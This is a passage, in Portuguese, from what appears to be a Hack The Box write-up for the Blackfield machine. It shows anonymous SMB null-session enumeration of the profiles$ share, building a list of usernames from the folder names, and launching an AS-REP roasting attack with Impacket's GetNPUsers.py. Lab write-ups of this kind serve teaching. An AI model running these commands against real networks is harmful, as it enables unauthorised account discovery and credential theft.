 ![smb null session](Assets/HTB-Windows-Hard-Blackfield/smb-null.png)

Agora sim! Vemos duas pastas partilhadas pelo qual podemos aceder. IPC$ e profiles$. IPC$ não tem nada, e profiles$ parece muito mais "feito à unha". Vamos entrar e ver com smbclient, usando o null session

```powershell
smbclient \\\\10.10.10.192\\profiles$ -U 'null'  # Pede a palavra pass. É só dar Enter...

smb: \> dir
#>    .                                   D        0  Wed Jun  3 17:47:12 2020
#>    ..                                  D        0  Wed Jun  3 17:47:12 2020
#>    AAlleni                             D        0  Wed Jun  3 17:47:11 2020
#>    ABarteski                           D        0  Wed Jun  3 17:47:11 2020
#>    ABekesz                             D        0  Wed Jun  3 17:47:11 2020
#>    ...
#>    ...
```

A resposta é enorme. Montes de pastas. E essas pastas soa como nomes de pessoas... Temos uns possíveis usuários. Vamos copiar isto tudo e filtrar para guardar apenas o nome da pasta para um ficheiro "users"

```powershell
smbclient \\\\10.10.10.192\\profiles$ -U 'null' -N -c "dir" > contents/users
cat contents/users | awk '{print$1}' | sponge contents/users
```

## AS-REP Roasting Attack

Agora que temos todos esses usuários, vamos tentar fazer o clássico AS-REP Roasting Attack, para tentar receber um TGT de um usuário que não precisa de requerer a pre-autenticação kerberos. Para isso, nada mais simples que o programa da impacket GetNPUsers.py

```powershell
GetNPUsers.py blackfield.local/ -no-pass -usersfile contents/users | grep -v "Client not found in Kerberos database"
```
